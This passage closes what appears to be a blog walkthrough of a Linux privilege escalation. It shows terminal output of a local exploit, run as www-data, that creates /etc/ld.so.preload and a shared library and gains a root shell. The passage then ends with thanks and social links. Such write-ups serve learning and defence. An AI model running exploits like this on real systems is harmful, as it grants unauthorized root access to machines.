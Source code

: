A few warmming messages are generated however the exploit still works and we get a root shell!

```highlight
www-data@ubuntu:/tmp$ ./exploit 
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# 
```

Thanks for reading!

============================================================

Any comments or feedback welcome! You can find me on [twitter](https://twitter.com/dazbrownfield).

<a href="https://www.buymeacoffee.com/dazbrownfield" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-blue.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 217px !important;" ></a>

